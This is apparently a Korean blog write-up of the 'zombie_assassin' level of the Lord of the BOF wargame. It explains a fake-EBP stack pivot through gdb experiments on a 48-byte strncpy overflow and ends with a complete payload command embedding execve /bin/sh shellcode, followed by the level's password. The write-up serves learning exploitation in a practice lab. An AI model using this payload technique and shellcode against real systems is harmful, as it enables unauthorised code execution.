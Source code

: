 ```yaml
---
layout: single
title: "LOB assassin -> zombie_assassin"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- WarGame
- WriteUp
- Pwnable
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - zombie_assassin
4          - FEBP
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  
10 main(int argc, char *argv[])
11 {
12         char buffer[40];
13 
14         if(argc < 2){
15                 printf("argv error\n");
16                 exit(0);
17         }
18 
19         if(argv[1][47] == '\xbf')
20         {
21                 printf("stack retbayed you!\n");
22                 exit(0);
23         }
24 
25         if(argv[1][47] == '\x40')
26         {
27                 printf("library retbayed you, too!!\n");
28                 exit(0);
29         }
30 
31         // strncpy instead of strcpy!
32         strncpy(buffer, argv[1], 48);
33         printf("%s\n", buffer);
34 }

```

Stack frame structure:

| buffer[40] |
| SFP |
| RET |
| argc |
| argv |
| environ |

문제에서 FEBP, fake EBP라는 힌트를 주었다. fake EBP는 golem -> darkknight 문제에서 한번 언급된 바 있다.
fake EBP는 ebp를 통해 eip를 조작하는 기법이다. 이를 알아보기 위해 실험을 해 보았다.

![disas]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/0.png)

disas main 명령어를 통해 leave를 하는 위치를 찾았다. leave ret을 하나씩 실행하고 경과를 지켜보기 위해 이 자리에 breakpoint를 걸고 차근차근 실행해 보았다.

![info_register]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/1.png)

A 40개는 buffer 40바이트, BBBB는 stack frame pointer, CCCC는 return 자리이다. 뒤의 D 200개는 padding과 쉘을 위치시킬 것을 고려해 입력해 보았다. 여기까지는 leave를 하기 전이다.

![memory]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/2.png)

![memory2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/3.png)

buffer와 argv 자리에 위치하고 있는 입력값들의 위치를 찾아 두었다. 그리고 si 명령어로 leave를 해 보았다.

![info_register2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/4.png)

ebp에 BBBB인 42424242가 위치해 있는 것을 볼 수 있다. 여기에서 leave 이후의 ret까지 실행시켜 보았다.

![info_register3]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/5.png)

eip가 BBBB 뒤의 값인 CCCC(43434343)으로 바뀐 것을 볼 수 있다. 원래 0x43434343 자리에는 다음에 실행할 명령어의 위치가 들어 있어야 할 것이다. 이제 CCCC(ret 위치) 대신 leave의 주소인 0x080484df를 입력하고, BBBB 자리에 적당한 주소로 bffffba0를 입력해 보았다.

![info_register4]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/6.png)

이전과 동일한 실행지점까지 실행시켜 보았다. eip가 080484df, ebp가 bffffba0으로 바뀌었다. 여기에서 한 줄 더 실행시켜 보았다.

![info_register5]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/7.png)

eip가 ret인 080484e0로 바뀌고 ebp는 이전에 bffffba0에 들어있는 값인 44444444로 바뀌었다. 여기에서 한줄 더 실행시켜 보았다.

![info_register6]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/8.png)

eip마저 44444444로 바뀌었다. 이는 ebp+4에 위치하고 있는 값이었을 것이다. 일련의 과정들을 통해 fake EBP를 다음과 같이 정리해 볼 수 있다.
본래의 SFP 자리에 어떤 주소지를 입력하고 ret 자리에 leave의 주소를 입력하면, SFP 자리에 입력된 주소지가 ebp가 되고, 거기서 4만큼 증가된 자리에 들어있는 주소지가 eip가 된다.
이를 바탕으로 페이로드를 다음과 같이 작성하였다.

```bash

./zombie_assassin `python –c ‘print “\xa0\xfb\xff\xbf”*10 + “\xd0\xf9\xff\xbf” + “\xdf\x84\x04\x08” + “\x90”*100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80” + “\x90”*75’`

```

1.	ret가 leave를 가리킴으로써 eip가 ret에 들어있는 주소값(\xdf\x84\x04\x08)으로 바뀐다.
2.	ebp가 SFP가 가리키는 주소(\xd0\xf9\xff\xbf)로 바뀐다.
3.	ebp가 SFP에 들어있는 주소가 가리키는 값(\xa0\xfb\xff\xbf)으로 바뀌고, +4가 된 주소에 들어있는 값이 eip에 담긴다.
4.	eip가 \x90” * 100 + shellcode를 실행

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/9.png)


my-pass: no place to hide
